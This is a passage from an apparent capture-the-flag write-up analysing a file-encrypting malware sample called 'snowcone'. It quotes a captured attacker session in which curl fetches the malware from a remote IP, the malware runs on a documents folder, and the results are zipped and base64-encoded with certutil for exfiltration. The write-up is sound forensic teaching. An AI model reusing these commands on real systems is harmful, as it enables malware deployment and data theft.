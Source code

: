 `SmallSnowcone()` is definitely the meat of our program here.  It takes in a path to a file, does some funky encryption to said file, and saves it with the extention `.sn0w` while deleting the original unencrypted file. This is probably the function that we are going to try and reverse. But what are we reversing it for? Surely we must be trying to decrypt some flag. Maybe looking back at the TCP stream could give us a hint.

Opening up Wireshark again, I took a look at on of the TCP streams and followed it.

```
C:\Users\Administrator>curl http://54.202.2.132:7331/snowcone.exe > snowcone.exe
curl http://54.202.2.132:7331/snowcone.exe > snowcone.exe
  % Total    % Received % Xferd  Average Speed   Time    Time     Time  Current
                                 Dload  Upload   Total   Spent    Left  Speed

  0     0    0     0    0     0      0      0 --:--:-- --:--:-- --:--:--     0
100  8192  100  8192    0     0   8192      0  0:00:01 --:--:--  0:00:01 8000k

C:\Users\Administrator>.\snowcone.exe super_sensitive_documents
.\snowcone.exe super_sensitive_documents

C:\Users\Administrator>tar -acf exfil.zip super_sensitive_documents
tar -acf exfil.zip super_sensitive_documents

C:\Users\Administrator>certutil -encode exfil.zip exfil.zip.b64
certutil -encode exfil.zip exfil.zip.b64
Input Length = 281020
Output Length = 386462
CertUtil: -encode command completed successfully.

C:\Users\Administrator>type exfil.zip.b64
type exfil.zip.b64
-----BEGIN CERTIFICATE-----
UEsDBBQAAAAAAEQBO1IAAAAAAAAAAAAAAAAaACAAc3VwZXJfc2Vuc2l0aXZlX2Rv
Y3VtZW50cy9VVA0AB2GvEGBhrxBgRawQYHV4CwABBAAAAAAEAAAAAFBLAwQUAAgA
                        ...
bHNlY3VyaXR5Y2FyZC5qcGcuc24wd1VUDQAHYa8QYGGvEGBhrxBgdXgLAAEEAAAA
AAQAAAAAUEsFBgAAAAAEAAQA2QEAAM1HBAAAAA==
-----END CERTIFICATE-----
```

We are given a lot of information here, so let's take a look at it command by command.  First, we see that the user downloaded the piece of malware using curl. They then ran the program with the directory `super_sensitive_documents` as input.  As we know from the code, this directory is now surely encrypted.  The user then zips the directory, and encodes it with base 64 to create a certificate representation of it.  Knowing this, we can recover the encoded directory by just decoding the base 64, which would leave us with the original `.zip`.

After doing this, we can see the contents of `super_sensitive_documents`:

```
$tree super_sensitive_documents
super_sensitive_documents/
├── flag.txt.sn0w
├── passport.jpg.sn0w
└── socialsecuritycard.jpg.sn0w

$hexdump super_sensitive_documents/flag.txt.sn0w
0000000 f0b3 8aad ac86 f2f3 8190 98ac a7ad a489
0000010 b8ae aafb a186 a8f0 b2ad b381 f1b4 888f
0000020 411e 331a 0875 596e 1c26 6a0a 165c 3225
0000030 4f33 0757 3c33 0703 3730 3f2c 0718 3912
0000040 5704 3b30 030b 5202 2762 2717
000004c
```
